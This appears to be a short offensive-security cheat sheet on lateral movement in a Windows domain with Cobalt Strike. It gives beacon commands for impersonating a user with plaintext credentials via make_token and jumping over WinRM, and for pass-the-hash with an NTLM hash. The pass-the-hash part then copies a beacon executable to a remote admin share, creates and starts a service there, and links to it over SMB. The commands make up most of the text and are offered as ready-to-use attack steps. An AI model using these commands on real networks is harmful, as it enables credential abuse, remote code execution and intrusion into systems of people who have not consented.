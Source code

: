# Techniques - Moving Laterally





## Introduction

This page section will combine impersonation techniques found in the previous section "User Impersionation" with the actual techniques to establish connections on other hosts.







## Cobalt Strike&#x20;

Below is a combination of different ways to get a beacon on the host using multiple different credential methods to impersonate a user.

### Plaintext Creds - make\_token

```bash
// Establish netonly Token (example)
beacon> make_token DEV\jking Qwerty123
// Example beacon spawn
// Jump (using SMB listener)
beacon> jump winrm64 sql-2.dev.cyberbotic.io Default_SMB_Listener
```



### Hash creds - pth

```bash
beacon> pth DEV\Administrator 59fc0f884922b4ce376051134c71e22c
// Example beacon spawn
beacon> upload demo.svc.exe C:\Windows\Temp
// Copy beacon to remote host & create service
beacon> shell copy C:\Windows\Temp\demo.svc.exe \\172.16.48.121\C$\Windows\Temp
beacon> shell sc \\172.16.48.121 create demopth binpath=C:\Windows\Temp\demo.svc.exe
beacon> shell sc \\172.16.48.121 start demopth
// Connect to beacon w/ link (smb)
beacon> link 172.16.48.83
// Drop impoersonation
beacon> rev2self
```

\

